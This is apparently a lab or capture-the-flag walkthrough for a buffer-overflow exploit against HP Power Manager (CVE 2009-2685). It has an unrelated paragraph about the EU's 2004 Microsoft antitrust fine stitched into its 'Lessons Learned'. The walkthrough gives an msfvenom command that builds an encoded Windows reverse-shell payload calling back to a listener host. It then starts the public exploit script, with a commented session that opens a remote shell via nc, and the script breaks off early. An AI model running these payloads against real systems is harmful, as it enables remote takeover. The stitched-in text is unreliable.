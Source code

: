 # Lessons Learned
* Back in 2004, the European Commission fined Microsoft a record €497m under an antitrust ruling. The Commission concluded that with a near-monopoly in the operating system market, Microsoft's bundling of Windows Media Player within Windows was anti-competitive. Microsoft was forced to unbundle the software and offer European consumers and manufacturers a version of Windows without it. Microsoft was allowed to keep selling Windows with a media player, under the condition that it at least offer a version without. Fast-forward to today, and a Microsoft spokesperson explained to CNET UK, "The European Commission's 2004 decision requires Microsoft to offer an N version of Windows in Europe (https://www.cnet.com/news/windows-7-n-the-n-editions-explained/).
* Modifying exploits may be necessary - remmeber to use the right port/address!

# Walkthrough
Next, we need to change the shellcode to a reverse shell while also keeping in mind the egg n00bn00b at the beginning of the shellcode as well as the bad characters to avoid. To generate the shellcode, we will use the following.
```bash
root@kali:~# msfvenom -p windows/shell_reverse_tcp -f exe --platform windows -a x86 -e x86/alpha_mixed -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.118.3 LPORT=443
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 710 (iteration=0)
x86/alpha_mixed chosen with final size 710
Payload size: 710 bytes
Final size of c file: 3008 bytes
unsigned char buf[] = 
"\x89\xe2\xd9\xc6\xd9\x72\xf4\x5f\x57\x59\x49\x49\x49\x49\x49"

*snip*
```
The complete exploit code looks like the following.
```python
#!/usr/bin/python
# HP Power Manager Administration Universal Buffer Overflow Exploit
# CVE 2009-2685
# Tested on Win2k3 Ent SP2 English, Win XP Sp2 English
# Matteo Memelli ryujin __A-T__ offensive-security.com
# www.offensive-security.com
# Spaghetti & Pwnsauce - 07/11/2009
#
# ryujin@bt:~$ ./hppowermanager.py 172.16.30.203
# HP Power Manager Administration Universal Buffer Overflow Exploit
# ryujin __A-T__ offensive-security.com
# [+] Sending evil buffer...
# HTTP/1.0 200 OK
# [+] Done!
# [*] Check your shell at 172.16.30.203:4444 , can take up to 1 min to spawn your shell
# ryujin@bt:~$ nc -v 172.16.30.203 4444
# 172.16.30.203: inverse host lookup failed: Unknown server error : Connection timed out
# (UNKNOWN) [172.16.30.203] 4444 (?) open
# Microsoft Windows [Version 5.2.3790]
# (C) Copyright 1985-2003 Microsoft Corp.

# C:\WINDOWS\system32>

import sys
from socket import *

print "HP Power Manager Administration Universal Buffer Overflow Exploit"
print "ryujin __A-T__ offensive-security.com"

```